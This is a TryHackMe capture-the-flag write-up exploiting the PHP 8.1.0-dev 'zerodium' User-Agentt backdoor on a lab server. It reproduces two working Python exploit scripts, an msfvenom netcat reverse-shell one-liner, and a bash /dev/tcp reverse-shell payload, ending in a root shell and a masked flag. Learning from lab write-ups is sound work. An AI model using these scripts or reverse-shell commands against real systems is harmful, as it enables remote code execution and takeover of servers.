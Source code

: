```yaml
---
categories:
- Tryhackme
- Freetime
- Fundamentals
layout: post
image:
    path: python.png
media_subpath: /assets/posts/2025-03-28-Agent-T-Got-10-Minutes
tags:
- CTF
title: TryHackMe - Got 10 minutes? - Agent T
---
```


## Introduction

Got an email about this challenge. Message contained following: "Got 10 minutes? Try to find out what is wrong with the server" 


![](images/2025-03-28-18-58.png)

Let's start my ParrotOS to dig deeper of this.

````
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-28 19:10 EET
Nmap scan report for thm.device
Host is up (0.066s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
````

![](images/2025-03-28-19-59.png)

Really interesting, that there is actually a dashboard to this platform with authenticated "Admin" user. While clicking each link in the site, eventually I ended up to similar site but different user logged in. 

![](images/2025-03-28-19-21.png)

At first I thought could there be a session token in the storage but there was not.
Any of the links in the website did not respond into any actions, so I did another Nmap scan with parameter "-A" to entirely scan the host. 
````
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
````
The version is now known, so let´s see if there is any vulnerabilities related to that.
Matter of fact, there was a RCE Backdoor for this specific version of PHP. (https://amsghimire.medium.com/php-8-1-0-dev-backdoor-cb224e7f5914)

It´s about changing the user-agent of the request into "User-agentt" and using payload "zerodiumsysytem("*command*")", this will be executed in the backend server.
Here is a python script from this blog to make the exploitation process persistent, this script belongs to author (https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) - Flast101 :

````
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
````

As expected, we ended up getting a shell using this exploit.

![](images/2025-03-28-19-14.png)

I wanted a better shell and started a netcat listener on Parrot's end but the simple reverse shell commands did not work on this host. MSFVenom could solve this problem.
````
┌─[tigris@parrot]─[~/Desktop]
└──╼ $msfvenom -p cmd/unix/reverse_netcat LHOST=10.x.x.x LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 99 bytes
mkfifo /tmp/tnbsawx; nc 10.x.x.x 4444 0</tmp/tnbsawx | /bin/sh >/tmp/tnbsawx 2>&1; rm /tmp/tnbsawx
````
This did not work either. Then i ended up finding this script, which contained a bash-command for the shell. I tried manually exploit the same command but it did not work and it might be that the earlier backdoor-script will format the request incorrectly. This was also made by flash101 - (https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) - (https://flast101.github.io/php-8.1.0-dev-backdoor-rce/)

````
#!/usr/bin/env python3
import os, sys, argparse, requests

request = requests.Session()

def check_target(args):
    response = request.get(args.url)
    for header in response.headers.items():
        if "PHP/8.1.0-dev" in header[1]:
            return True
    return False

def reverse_shell(args):
    payload = 'bash -c \"bash -i >& /dev/tcp/' + args.lhost + '/' + args.lport + ' 0>&1\"'
    injection = request.get(args.url, headers={"User-Agentt": "zerodiumsystem('" + payload + "');"}, allow_redirects = False)

def main(): 
    parser = argparse.ArgumentParser(description="Get a reverse shell from PHP 8.1.0-dev backdoor. Set up a netcat listener in another shell: nc -nlvp <attacker PORT>")
    parser.add_argument("url", metavar='<target URL>', help="Target URL")
    parser.add_argument("lhost", metavar='<attacker IP>', help="Attacker listening IP",)
    parser.add_argument("lport", metavar='<attacker PORT>', help="Attacker listening port")
    args = parser.parse_args()
    if check_target(args):
        reverse_shell(args)
    else:
        print("Host is not available or vulnerable, aborting...")
        exit
    
if __name__ == "__main__":
    main()
````

We are in.

````
┌─[✗]─[tigris@parrot]─[~/Desktop]
└──╼ $netcat -lvnp 4444
listening on [any] 4444 ...
connect to [10.x.x.x] from (UNKNOWN) [10.x.x.x] 35484
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3f8655e43931:/var/www/html#
root@3f8655e43931:/# ls

ls
bin
boot
dev
etc
flag.txt
home

root@3f8655e43931:/# cat flag.txt
flag{412xxxxxxxxxxxxxxxxxxxxxxxxx}
````


